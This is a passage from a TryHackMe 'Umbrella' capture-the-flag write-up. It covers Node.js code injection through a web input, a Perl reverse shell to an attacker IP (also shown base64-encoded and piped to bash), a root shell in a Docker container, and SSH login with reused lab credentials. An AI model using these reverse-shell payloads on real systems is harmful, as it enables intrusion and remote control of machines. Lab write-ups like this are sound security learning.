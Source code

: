 <img width="1919" height="638" alt="image 4" src="https://github.com/user-attachments/assets/9320cfef-d580-43bd-a343-062c7b91ac89" />

And with following payload we can get the reverse shell back to our machine:

```bash
# Perl reverse shell
perl -e 'use Socket;$i="10.17.87.131";$p=4445;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
# With base64 encoding our payload looks something like this
require('child_process').execSync('echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTAuMTcuODcuMTMxIjskcD00NDQ1O3NvY2tldChTLFBGX0lORVQsU09DS19TVFJFQU0sZ2V0cHJvdG9ieW5hbWUoInRjcCIpKTtpZihjb25uZWN0KFMsc29ja2FkZHJfaW4oJHAsaW5ldF9hdG9uKCRpKSkpKXtvcGVuKFNURElOLCI+JlMiKTtvcGVuKFNURE9VVCwiPiZTIik7b3BlbihTVERFUlIsIj4mUyIpO2V4ZWMoIi9iaW4vc2ggLWkiKTt9Oyc=| base64 -d | bash')
```

[https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet](https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet)

Now, just have to setup netcat on listning mode and have to put this payload in input and submit.

<img width="1918" height="403" alt="image 5" src="https://github.com/user-attachments/assets/ed8bd356-5d66-4af0-aa47-d3a8eeba6ea6" />

<img width="1770" height="205" alt="image 6" src="https://github.com/user-attachments/assets/56d1c268-3177-4540-8cbd-50a1eda8d730" />

We got directly root shell on docker container.

---

### Initial Access via SSH on host target machine

Login on ssh with the same credentials we got earlier`claire-r:Password1` 

```bash
┌──(ghost㉿kali)-[~/tryhackme/umbrella]
└─$ ssh claire-r@10.10.251.82
...
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.251.82' (ED25519) to the list of known hosts.
claire-r@10.10.251.82's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-138-generic x86_64)
...
claire-r@ip-10-10-251-82:~$ id
uid=1001(claire-r) gid=1001(claire-r) groups=1001(claire-r)
claire-r@ip-10-10-251-82:~$ ls -la
total 36
drwxr-xr-x 4 claire-r claire-r 4096 Jul 17 13:35 .
drwxr-xr-x 5 root     root     4096 Jul 17 12:59 ..
-rw------- 1 claire-r claire-r   61 Sep 22  2023 .bash_history
-rw-r--r-- 1 claire-r claire-r  220 Dec 22  2022 .bash_logout
-rw-r--r-- 1 claire-r claire-r 3771 Dec 22  2022 .bashrc
drwx------ 2 claire-r claire-r 4096 Jul 17 13:35 .cache
-rw-r--r-- 1 claire-r claire-r  807 Dec 22  2022 .profile
drwxrwxr-x 6 claire-r claire-r 4096 Dec 22  2022 timeTracker-src
-rw-r--r-- 1 claire-r claire-r   38 Dec 22  2022 user.txt
claire-r@ip-10-10-251-82:~$ cat user.txt
THM{d832c0e4......REDACTED}
```

---